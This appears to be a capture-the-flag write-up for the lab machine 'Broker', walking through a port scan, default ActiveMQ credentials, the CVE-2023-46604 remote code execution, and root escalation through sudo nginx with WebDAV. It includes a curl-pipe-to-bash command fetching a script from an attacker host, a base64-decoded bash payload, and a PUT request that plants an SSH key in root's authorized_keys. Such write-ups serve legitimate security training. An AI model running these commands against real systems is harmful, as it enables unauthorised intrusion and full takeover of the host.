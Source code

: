 # Broker

## Machine Info

![Broker](./Broker.assets/Broker.png)

## Recon

### port

```console
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/Consumer/Topic/#:
|_    ActiveMQ/Advisory/MasterBroker:
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
34291/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings:
|   HELP4STOMP:
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion
|_    5.15.15
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web

default credential: `admin:admin`

![image-20240308012538078](./Broker.assets/image-20240308012538078.png)

### ActiveMQ

**ActiveMQ**: Version 5.15.15

**Exploit Search**: CVE-2023-46604

## Foothold

### ActiveMQ 5.15.15 RCE

Exploit code: [here](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell)

1. Payload1: msfvenom

![image-20240308012801369](./Broker.assets/image-20240308012801369.png)

![image-20240308012816008](./Broker.assets/image-20240308012816008.png)

2. Payload2: poc-linux.xml `echo xxx | base64 -d | bash`

## Privilege Escalation

### enum

sudo

![image-20240308012921038](./Broker.assets/image-20240308012921038.png)

nginx conf: dav enabled

```console
activemq@broker:~$ sudo nginx -V
sudo nginx -V
nginx version: nginx/1.18.0 (Ubuntu)
built with OpenSSL 3.0.2 15 Mar 2022
TLS SNI support enabled
configure arguments: --with-cc-opt='-g -O2 -ffile-prefix-map=/build/nginx-zctdR4/nginx-1.18.0=. -flto=auto -ffat-lto-objects -flto=auto -ffat-lto-objects -fstack-protector-strong -Wformat -Werror=format-security -fPIC -Wdate-time -D_FORTIFY_SOURCE=2' --with-ld-opt='-Wl,-Bsymbolic-functions -flto=auto -ffat-lto-objects -flto=auto -Wl,-z,relro -Wl,-z,now -fPIC' --prefix=/usr/share/nginx --conf-path=/etc/nginx/nginx.conf --http-log-path=/var/log/nginx/access.log --error-log-path=/var/log/nginx/error.log --lock-path=/var/lock/nginx.lock --pid-path=/run/nginx.pid --modules-path=/usr/lib/nginx/modules --http-client-body-temp-path=/var/lib/nginx/body --http-fastcgi-temp-path=/var/lib/nginx/fastcgi --http-proxy-temp-path=/var/lib/nginx/proxy --http-scgi-temp-path=/var/lib/nginx/scgi --http-uwsgi-temp-path=/var/lib/nginx/uwsgi --with-compat --with-debug --with-pcre-jit --with-http_ssl_module --with-http_stub_status_module --with-http_realip_module --with-http_auth_request_module --with-http_v2_module --with-http_dav_module --with-http_slice_module --with-threads --add-dynamic-module=/build/nginx-zctdR4/nginx-1.18.0/debian/modules/http-geoip2 --with-http_gzip_static_module --without-http_browser_module --without-http_geo_module --without-http_limit_req_module --without-http_limit_conn_module --without-http_memcached_module --without-http_referer_module --without-http_split_clients_module --without-http_userid_module
```

### nginx to host a sever

[zhsh9/sudo_nginx (github.com)](https://github.com/zhsh9/sudo_nginx)

```console
$ curl http://<IP>/nginx_root.sh | bash

--------------------------------------------------------------------------------
└─╼$ curl http://10.10.11.243:8080/root/root.txt
8c7e82954c3553b9f9f4dea468a7f1ba

└─╼$ curl -X PUT http://10.10.11.243:8080/root/.ssh/authorized_keys -d "$(cat ~/.ssh/id_ed25519.pub)"

└─╼$ ssh root@$IP
The authenticity of host '10.10.11.243 (10.10.11.243)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.243' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...
root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port scan -> ActiveMQ 5.15.15 RCE -> activemq shell -> sudo -l: nginx -> zhsh9/sudo_nginx script -> start a server -> PUT request to upload authorized_keys -> root shell
